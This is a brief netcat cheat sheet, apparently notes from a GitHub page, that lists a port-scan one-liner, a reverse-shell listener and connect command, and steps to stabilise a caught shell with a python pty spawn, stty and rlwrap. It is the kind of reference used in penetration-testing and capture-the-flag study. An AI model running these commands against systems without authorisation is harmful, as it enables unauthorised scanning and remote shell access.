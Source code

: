 # nc
# Port scan
```
nc -zv $ip 1-1000 2>&1 | grep -v failed
```

# Reverse shell
```
nc -lvnp <port-number>
```
```
nc <target-ip> <chosen-port>
```

# Shell stabilization
## Shell stabilization via python
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
^Z
stty raw -echo; fg
```
## Shell stabilization via rlwrap
```
sudo apt install rlwrap
rlwrap nc -lvnp <port>
^Z
stty raw -echo; fg
```
# Setting rows and columns
```
Information from local machine
stty -a

Set rows and columns in reverse shell
stty rows <number>
stty cols <number>
```
